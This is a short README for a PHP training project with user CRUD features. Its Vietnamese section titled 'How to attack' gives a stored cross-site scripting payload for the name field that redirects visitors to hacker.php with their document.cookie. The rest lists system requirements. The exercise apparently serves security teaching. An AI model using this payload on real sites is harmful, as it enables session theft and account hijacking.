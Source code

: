 # Cách tấn công
- Ấn vào Add new user -> phần name điền như sau -> `<script>window.location.href = "hacker.php?cookie=" + document.cookie</script>` -> Submit

# php-training
* Repository: https://github.com/tailieuweb/training-php

## System requirements
* Apache: 2.4
* MySQL: 5.7 ; MariaDB: 10.x
* PHP: 7.x, 8.x
* Wamp/Xampp

# Features
- CRUD user